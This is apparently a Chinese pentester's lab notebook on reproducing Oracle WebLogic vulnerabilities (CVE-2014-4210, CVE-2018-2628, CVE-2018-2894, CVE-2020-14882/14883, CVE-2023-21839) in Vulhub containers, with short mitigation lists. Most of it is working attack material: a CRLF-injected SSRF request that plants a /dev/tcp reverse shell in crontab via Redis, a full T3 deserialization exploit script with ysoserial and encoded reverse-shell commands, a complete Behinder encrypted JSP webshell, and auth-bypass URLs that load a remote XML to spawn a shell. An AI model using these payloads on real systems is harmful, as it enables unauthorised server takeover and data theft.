## 前言

**Weblogic介绍**

WebLogic是美国Oracle公司出品的一个applicationserver，确切的说是一个基于`JAVAEE`架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布 

式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之 

中。

## Weblogic SSRF漏洞（CVE-2014-4210）

### 0x01	漏洞描述

Weblogic中存在一个**SSRF漏洞**，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。


**影响范围**

Weblogic		`10.0.2.0`

Weblogic		`10.3.6.0`

### 0x02	漏洞复现

**漏洞环境搭建**

使用 docker 环境搭建，Vulhub靶场。

- `vulhub/weblogic/ssrf`
- `weblogic 10.3.6.0`

启动靶场。

```python
cd ./vulhub/weblogic/ssrf

docker-compose up -d
```

访问`http://your-ip:7001/uddiexplorer/`，无需登录即可查看`uddi explorer`应用。

#### SSRF漏洞进行内网探测

SSRF漏洞存在于`http://192.168.1.8:7001/uddiexplorer/SearchPublicRegistries.jsp`，我们在brupsuite下测试该漏洞。访问一个可以访问的`IP:PORT`，如`http://127.0.0.1:80`：






可以改变请求方式为GET

```http
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```


可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回`did not have a valid SOAP content-type`。



修改为一个不存在的端口，将会返回`could not connect over HTTP to server`。



通过错误的不同，即可探测内网状态。

#### 注入HTTP头，利用Redis反弹shell

Weblogic的SSRF有一个比较大的特点，其虽然是一个“`**GET**`”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是`172.*`），发现`172.18.0.2:6379`可以连通：



发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

```shell
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.138.129/3344 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

知识补充：

1. `/etc/crontab`是Linux的计划任务文件，
2. `**0-59[分] 0-23[小时] 1-31[日] 1-12[月] 0-6[星期]**`[表示计划任务的时间](https://www.cnblogs.com/optimus-prime/p/7154559.html#:~:text=0-59 0-23 1-31,1-12 0-6 command 其中，0表示星期日，一行对应一个命令。)；
3. 因为是做实验，建议设置为`*** \* \* \* \***`表示一直反弹shell。

可以构造如下代码：

```http
set 1 "\n\n\n\n* * * * * root bash -c 'sh -i >& /dev/tcp/192.168.1.128/3344 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

进行url编码：

```shell
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.138.129%2F3344%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```

注意，换行符是“`**\r\n**`”，也就是“`%0D%0A`”; 用redis写入的文件会自带一些版本信息，如果不换行可能会导致无法执行。  

将url编码后的字符串放在ssrf的域名后面，发送：

```http
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.138.129%2F3344%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```



成功反弹：



最后补充一下，可进行利用的cron有如下几个地方：

- /etc/crontab 这个是肯定的
- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root debian系统下root用户的cron文件

### 0x03	防范方法

1. 限制不能访问内网的ip，以防止对内网进行攻击。

### 参考笔记：

1. https://vulhub.org/#/environments/weblogic/ssrf/
2. https://blog.csdn.net/weixin_45605352/article/details/118899427
3. https://zhuanlan.zhihu.com/p/266211467（源码分析）

------

## Weblogic 反序列化命令执行漏洞（CVE-2018-2628）

```
Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）
```

### 0x01	漏洞描述

Oracle 2018年4月补丁中，修复了`Weblogic Server WLS Core Components`中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过`**t3协议**`触发，可导致未授权的用户在远程服务器执行任意命令。

**知识点补充：**

```plain
T3协议：
用于在Weblogic服务器和其他类型的Java程序之间传输信息的协议。Weblogic会跟踪连接到应用程序的每个Java虚拟机，要将流量传输到Java虚拟机，Weblogic会创建一个T3连接。该链接会通过消除在网络之间的多个协议来最大化效率，从而使用较少的操作系统资源。用于T3连接的协议还可以最大限度减少数据包大小，提高传输速度。

RMI：
远程方法调用，除了该对象本身的虚拟机，其它的虚拟机也可以调用该对象的方法。（对象的虚拟化和反序列化广泛应用到RMI和网络传输中）

JRMP：
Java远程消息交换协议JRMP
```


**影响范围**

Weblogic `10.3.6.0`
Weblogic `12.1.3.0`
Weblogic `12.2.1.2`
Weblogic `12.2.1.3`

### 0x02	漏洞验证

**靶场环境**

使用 docker 环境进行复现，使用 vulhub 靶场。

- `vulhub/weblogic/CVE-2018-2628`
- `Weblogic 10.3.6.0`


等待环境启动（环境差异，有的机器可能等待的时间比较久），访问`http://your-ip:7001/console`，初始化整个环境。  






#### 漏洞检测

使用 nmap 工具的检测脚本检测目标站点是否使用了 T3 协议。

```bash
nmap --script=weblogic-t3-info.nse -p 7001 192.168.138.128
```




01

 首先下载 [ysoserial.jar](https://github.com/brianwrf/ysoserial)，并启动一个JRMP Server。  

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'touch /tmp/sucess.txt'
```

`touch /tmp/success.txt`为我想执行的命令，`1099`是JRMP Server监听的端口。




02

然后，使用[Weblogic_T3_Exp.py](https://www.exploit-db.com/exploits/44553)脚本，向目标Weblogic（`http://your-ip:7001`）发送数据包：  

```bash
python Weblogic_T3_Exp.py 192.168.138.131 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.138.129 1099 JRMPClient
```

`192.168.138.131 7001`是weblogic靶机的IP和端口，`ysoserial-0.0.6-SNAPSHOT-BETA-all.jar` 是ysoserial的本地路径根据自己真实路径填写，`192.168.0.101 1099`的JRMP 一端的IP地址和端口。

\#JRMPClien是执行JRMPClient的类。

```python
# -*- coding: utf-8 -*-
# Oracle Weblogic Server (10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3) Deserialization Remote Command Execution Vulnerability (CVE-2018-2628)
#
# IMPORTANT: Is provided only for educational or information purposes.
#
# Credit: Thanks by Liao Xinxi of NSFOCUS Security Team
# Reference: http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
#
# How to exploit:
# 1. run below command on JRMPListener host
#    1) wget https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar
#    2) java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
#       e.g. java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'nc -nv 10.0.0.5 4040'
# 2. start a listener on attacker host
#    e.g. nc -nlvp 4040
# 3. run this script on attacker host
#    1) wget https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar
#    2) python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
#       e.g.
#           a) python exploit.py 10.0.0.11 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 10.0.0.5 1099 JRMPClient (Using java.rmi.registry.Registry)
#           b) python exploit.py 10.0.0.11 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 10.0.0.5 1099 JRMPClient2 (Using java.rmi.activation.Activator)

from __future__ import print_function

import binascii
import os
import socket
import sys
import time


def generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
    #generates ysoserial payload
    command = 'java -jar {} {} {}:{} > payload.out'.format(path_ysoserial, jrmp_client, jrmp_listener_ip, jrmp_listener_port)
    print("command: " + command)
    os.system(command)
    bin_file = open('payload.out','rb').read()
    return binascii.hexlify(bin_file)


def t3_handshake(sock, server_addr):
    sock.connect(server_addr)
    sock.send('74332031322e322e310a41533a3235350a484c3a31390a4d533a31303030303030300a0a'.decode('hex'))
    time.sleep(1)
    sock.recv(1024)
    print('handshake successful')


def build_t3_request_object(sock, port):
    data1 = '000005c3016501ffffffffffffffff0000006a0000ea600000001900937b484a56fa4a777666f581daa4f5b90e2aebfc607499b4027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c657400124c6a6176612f6c616e672f537472696e673b4c000a696d706c56656e646f7271007e00034c000b696d706c56657273696f6e71007e000378707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b4c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00044c000a696d706c56656e646f7271007e00044c000b696d706c56657273696f6e71007e000478707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200217765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e50656572496e666f585474f39bc908f10200064900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463685b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b6167657371'
    data2 = '007e00034c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00054c000a696d706c56656e646f7271007e00054c000b696d706c56657273696f6e71007e000578707702000078fe00fffe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c000078707750210000000000000000000d3139322e3136382e312e323237001257494e2d4147444d565155423154362e656883348cd6000000070000{0}ffffffffffffffffffffffffffffffffffffffffffffffff78fe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c0000787077200114dc42bd07'.format('{:04x}'.format(dport))
    data3 = '1a7727000d3234322e323134'
    data4 = '2e312e32353461863d1d0000000078'
    for d in [data1,data2,data3,data4]:
        sock.send(d.decode('hex'))
    time.sleep(2)
    print('send request payload successful,recv length:%d'%(len(sock.recv(2048))))


def send_payload_objdata(sock, data):
    payload='056508000000010000001b0000005d010100737201787073720278700000000000000000757203787000000000787400087765626c6f67696375720478700000000c9c979a9a8c9a9bcfcf9b939a7400087765626c6f67696306fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200025b42acf317f8060854e002000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78707702000078fe010000'
    payload+=data
    payload+='fe010000aced0005737200257765626c6f6769632e726a766d2e496d6d757461626c6553657276696365436f6e74657874ddcba8706386f0ba0c0000787200297765626c6f6769632e726d692e70726f76696465722e426173696353657276696365436f6e74657874e4632236c5d4a71e0c0000787077020600737200267765626c6f6769632e726d692e696e7465726e616c2e4d6574686f6444657363726970746f7212485a828af7f67b0c000078707734002e61757468656e746963617465284c7765626c6f6769632e73656375726974792e61636c2e55736572496e666f3b290000001b7878fe00ff'
    payload = '%s%s'%('{:08x}'.format(len(payload)/2 + 4),payload)
    sock.send(payload.decode('hex'))
    time.sleep(2)
    sock.send(payload.decode('hex'))
    res = ''
    try:
        while True:
            res += sock.recv(4096)
            time.sleep(0.1)
    except Exception:
        pass
    return res


def exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(65)
    server_addr = (dip, dport)
    t3_handshake(sock, server_addr)
    build_t3_request_object(sock, dport)
    payload = generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)
    print("payload: " + payload)
    rs=send_payload_objdata(sock, payload)
    print('response: ' + rs)
    print('exploit completed!')


if __name__=="__main__":
    #check for args, print usage if incorrect
    if len(sys.argv) != 7:
        print('\nUsage:\nexploit.py [victim ip] [victim port] [path to ysoserial] '
              '[JRMPListener ip] [JRMPListener port] [JRMPClient]\n')
        sys.exit()

    dip = sys.argv[1]
    dport = int(sys.argv[2])
    path_ysoserial = sys.argv[3]
    jrmp_listener_ip = sys.argv[4]
    jrmp_listener_port = sys.argv[5]
    jrmp_client = sys.argv[6]
    exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)
            
```

**踩坑：**因为编码的问题，python3一直无法执行Exp脚本，换用python2执行正常。




03

`exploit.py`执行完成后，执行`docker-compose exec weblogic bash`进入容器中，可见`/tmp/success`已成功创建。  



看一下JRMP状态




#### 反弹shell

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'bash -i >& /dev/tcp/192.168.0.101/3344 0>&1'

因为Runtime.getRuntime().exec()中不能使用管道符等bash需要的方法，需要进行编码

java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'bash -c {echo, L2Jpbi9iYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4wLjEwMS8zMzQ0IDA8JiAyPiYx}|{base64, -d}|{bash, -i}'
nc -nv 192.168.0.101 3344
```

尝试反弹shell，老是反弹不成功，但是反弹nc连接却可以。。。。郁闷。

### 0x03	防御方法

1. 目前Oracle已经发布了相关漏洞的补丁，受影响用户可及时修复。链接：https://www.oracle.com/security-alerts/cpujan2023.html
2. 禁用T3协议（缓解措施）：

3. 1. 1）进入WebLogic控制台，在base_domain的配置页面中，进入“安全”选项卡页面，点击“筛选器”，进入连接筛选器配置。
   2. 2)在连接筛选器中输入：weblogic.security.net.ConnectionFilterImpl，在连接筛选器规则中输入：127.0.0.1 * * allow t3t3s，0.0.0.0/0 * *deny t3 t3s(t3和t3s协议的所有端口只允许本地访问)。
   3. 3）保存后需重新启动，规则方可生效。

### 参考笔记

1. https://vulhub.org/#/environments/weblogic/CVE-2018-2628/
2. [weblogic反序列化（CVE-2018-2628） - 腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1944737)
3. [Weblogic反序列化命令执行漏洞（CVE-2018-2628）复现_君莫hacker的博客-CSDN博客_cve-2018-2628复现](https://blog.csdn.net/weixin_45744814/article/details/120229347)

------

## 

------

## Weblogic 任意文件上传漏洞（CVE-2018-2894）

```
Weblogic 任意文件上传漏洞（CVE-2018-2894）
```

### 0x01	漏洞原理

Weblogic（基于javaEE框架的中间件）管理端未经授权的两个页面存在任意文件上传 jsp 漏洞，进而获取服务器的权限。这两个页面分别为：`/ws_utc/begin.do`、`/ws_utc/config.do`。

Oracle 7月的更新中，修复了 Weblogic 中的一处任意文件上传漏洞。Web Service Test Page在“生产模式”下（生产模式：该模式关闭自动部署）默认不开启，所以该漏洞有一定的限制。


**漏洞危害：**

WebLogic 管理端未授权的两个页面存在任意上传 getshell 漏洞，可直接获取权限。两个页面分别为`**/ws_utc/begin.do**`，`**/ws_utc/config.do**`。

利用该漏洞，可以上传任意 **jsp** 文件，进而获取服务器权限。


**影响版本：**

Weblogic `10.3.6``12.1.3.0`, `12.2.1.2`, `12.2.1.3` 

### 0x02	漏洞复现

**靶场环境搭建：**

vulhub：`https://vulhub.org/#/environments/weblogic/CVE-2018-2894/`

```basic
docker-compose up -d
```


01

环境启动后，访问`**http://your-ip:7001/console**`，即可看到后台登录页面。



02

执行`docker-compose logs | grep password`可查看管理员密码，管理员用户名/密码为：`weblogic：2itRI90N`。



03

登录后台页面，点击`**base_domain**`的配置，在“高级”中开启“启用 Web 服务测试页”选项：





04

访问	`**http://your-ip:7001/ws_utc/config.do**`	设置Work Home Dir为：

```
**/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css**
```

我将目录设置为`**ws_utc**`应用的静态文件`../war/css/目录`，访问这个目录是无需权限的，这一点很重要。



05

然后点击`安全` -> `增加`，然后上传冰蝎的shell脚本webshell：

```java
<%@page import="java.util.*,java.io.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
private byte[] Decrypt(byte[] data) throws Exception
{
     byte[] decodebs;
        Class baseCls ;
                try{
                    baseCls=Class.forName("java.util.Base64");
                    Object Decoder=baseCls.getMethod("getDecoder", null).invoke(baseCls, null);
                    decodebs=(byte[]) Decoder.getClass().getMethod("decode", new Class[]{byte[].class}).invoke(Decoder, new Object[]{data});
                }
                catch (Throwable e)
                {
                    baseCls = Class.forName("sun.misc.BASE64Decoder");
                    Object Decoder=baseCls.newInstance();
                    decodebs=(byte[]) Decoder.getClass().getMethod("decodeBuffer",new Class[]{String.class}).invoke(Decoder, new Object[]{new String(data)});

                }
    String key="e45e329feb5d925b";
	for (int i = 0; i < decodebs.length; i++) {
		decodebs[i] = (byte) ((decodebs[i]) ^ (key.getBytes()[i + 1 & 15]));
	}
	return decodebs;
}
%>
<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return
        super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            byte[] buf = new byte[512];
            int length=request.getInputStream().read(buf);
            while (length>0)
            {
                byte[] data= Arrays.copyOfRange(buf,0,length);
                bos.write(data);
                length=request.getInputStream().read(buf);
            }
            /* 取消如下代码的注释，可避免response.getOutputstream报错信息，增加某些深度定制的Java web系统的兼容濿
            out.clear();
            out=pageContext.pushBody();
            */
        new U(this.getClass().getClassLoader()).g(Decrypt(bos.toByteArray())).newInstance().equals(pageContext);}
%>
```



06

上传后，查看返回的数据包，其中有时间戳：



07

然后访问`**http://your-ip:7001/ws_utc/css/config/keystore/[时间戳]_[文件名]**`，即可执行webshell：尝试已使用冰蝎连接`webshell.jsp`。

运行命令，连接成功。




**反弹shell**

01

使用冰蝎的反弹shell功能，IP地址填写kali的IP，端口随意填写，先别点击冰蝎`**给我连**`；此时需要在 kali 开启监听。



02

在 `kali`开启监听，然后点击冰蝎的`**给我连**`，可以看到成功连接，执行一下命令，可以执行，getshell成功。

```java
nc -lvnp 9090	# 监听本地的9090端口
```



Note: 

1）`**ws_utc/begin.do** `使用的工作目录是在 使 `**ws_utc/config.do**`中设置的 中`**Work Home Dir**`；

2）利用需要知道部署应用的**web目录**；

3）在生产模式下默认不开启，在后台开启之后，需要认证。



### 0x03	修复建议

1. 设置`**config.do**`,`**begin.do**`页面登录授权后访问；
2. [IPS](https://blog.csdn.net/qq_36119192/article/details/84344826)等防御产品可以加入相应的特征；
3. 升级到官方的最新版本；
4. 启动生产模式， 
5. 编辑`**/domain/**`路径下的`**setDomainEnv.cmd**`文件，将`**set PRODUCTION_MODE=** `更改为 `**set PRODUCTION_MODE=true**`**(完整路径：**

`**C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\bin\setDomainEnv.cmd**`**）**

目前(2019/06/07) 生产模式下 已取消这两处上传文件的地方。



### 参考笔记：

1. https://vulhub.org/#/environments/weblogic/CVE-2018-2894/
2. https://blog.csdn.net/weixin_43625577/article/details/97001677

------

## Weblogic 管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）

```
**Weblogic 管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）**
```

### 前言

Weblogic是Oracle公司推出的J2EE应用服务器。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是`CVE-2020-14882`和`CVE-2020-14883`。

CVE-2020-14882 允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883 允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

### 0x01	漏洞描述

**漏洞原理：**

Oracle WebLogic Server 远程代码执行漏洞 （CVE-2020-14882）POC 被公开，未经[身份验证](https://cloud.tencent.com/product/mfas?from=10680)的远程攻击者可通过构造特殊的 HTTP GET 请求，结合 CVE-2020-14883 漏洞进行利用，利用此漏洞可在未经身份验证的情况下直接接管 WebLogic Server Console ，并执行任意代码，利用门槛低，危害巨大。


**影响版本：**

Oracle WebLogic Server，版本

`10.3.6.0`，`12.1.3.0`，`12.2.1.3`，`12.2.1.4`，`14.1.1.0`。

### 0x02	漏洞复现

**复现环境：**

vulhub：`**https://vulhub.org/#/environments/weblogic/CVE-2020-14882/**`

weblogic：`12.2.1.3`


**工具：**

接下来会使用到的工具。

1. CVE-2020-14882批量验证：https://github.com/GGyao/CVE-2020-14882_POC
2. https://github.com/hanc00l/weblogic_unserialize_exploit

#### POC检测

首先测试权限绕过漏洞（CVE-2020-14882），访问以下URL，即可未授权访问到管理后台页面：

```shell
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```



访问后台后，可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码：




01

此时需要利用到第二个漏洞 **CVE-2020-14883**。这个漏洞的利用方式有两种：

一是通过：

```
**com.tangosol.coherence.mvel2.sh.ShellSession**
```

二是通过：

```
**com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext**
```

#### 方式一（shellSession）：

02

直接访问如下URL，即可利用`**com.tangosol.coherence.mvel2.sh.ShellSession**`执行命令：

```bash
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

进入容器，可以发现`**touch /tmp/success1**`已成功执行：

```bash
docker exec -it [容器ID] bash	
```



**注意：**这个利用方法只能在`Weblogic 12.2.1`以上版本利用，因为`10.3.6`并不存在`**com.tangosol.coherence.mvel2.sh.ShellSession**`类。`**com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext**`是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

#### 方法二（FileSystemXmlApplicationContext）：

首先，我们需要构造一个**XML**文件，并将其保存在Weblogic可以访问到的服务器上，如`**http://example.com/rce.xml**`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
	xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
	<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
		<constructor-arg>
			<list>
				<value>bash</value>
				<value>-c</value>
				<value><![CDATA[touch /tmp/success2]]></value>
			</list>
		</constructor-arg>
	</bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```plain
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```



这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。

#### 利用XML文件反弹shell

01

首先在`kali`先建立起一个监听：

```bash
nc -lvnp 9090	# 监听本地的9090端口
```



02

然后，我们需要构造一个**XML**文件，并将其保存在Weblogic可以访问到的服务器上，如`**http://example.com/rce.xml**`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
	xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
	<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
		<constructor-arg>
			<list>
				<value>bash</value>
				<value>-c</value>
				<value><![CDATA[bash -i >& /dev/tcp/192.168.1.88/9090 0>&1]]></value>
			</list>
		</constructor-arg>
	</bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```xml
http://192.168.1.133:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.0.101/rce.xml")
```

03

成功监听，getshell，尝试执行一下命令。




### 0x03	修复建议

1、及时下载官方补丁进行升级修复。下载地址如下：https://www.oracle.com/security-alerts/cpuoct2020.html

2、关闭后台/console/console.portal的访问权限。

3、修改后台默认地址。

### 参考笔记：

1. https://vulhub.org/#/environments/weblogic/CVE-2020-14882/
2. https://cloud.tencent.com/developer/article/1745180
3. https://blog.csdn.net/ab_bcd/article/details/121453755
4. https://github.com/GGyao/CVE-2020-14882_POC

------

## Weblogic远程代码执行漏洞（CVE-2023-21839)

### 0x01	漏洞描述

WebLogic 是 Oracle公司研发的用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的 Java 应用服务器，在全球范围内被广泛使用。

1月18日，Oracle发布安全公告，修复了一个存在于 WebLogicCore 中的远程代码执行漏洞（CVE-2023-21839），该漏洞的 CVSSv3 评分为 7.5，可在未经身份验证的情况下通过T3、IIOP协议远程访问并破坏易受攻击的WebLogic Server，成功利用该漏洞可能导致未授权访问和敏感信息泄露。


**影响范围**

Oracle Weblogic Server `12.2.1.3.0`

Oracle Weblogic Server `12.2.1.4.0`

Oracle Weblogic Server `14.1.1.0.0`

### 0x02	漏洞复现 

**复现环境：**https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2023-21839


**EXP：**https://github.com/4ra1n/CVE-2023-21839

### 0x03	修复建议

1. 目前Oracle已经发布了相关漏洞的补丁，受影响用户可及时修复。链接：https://www.oracle.com/security-alerts/cpujan2023.html

缓解措施：

1. 禁用T3协议：

1. 1. 1）进入WebLogic控制台，在base_domain的配置页面中，进入“安全”选项卡页面，点击“筛选器”，进入连接筛选器配置。
   2. 2)在连接筛选器中输入：weblogic.security.net.ConnectionFilterImpl，在连接筛选器规则中输入：127.0.0.1 * * allow t3t3s，0.0.0.0/0 * *deny t3 t3s(t3和t3s协议的所有端口只允许本地访问)。
   3. 3）保存后需重新启动，规则方可生效。
   4. 

1. 禁用IIOP协议：

1. 1. 登录WebLogic控制台，base_domain >服务器概要 >AdminServer
   2. 

### 参考笔记：

1. https://www.venustech.com.cn/new_type/aqtg/20230119/25086.html
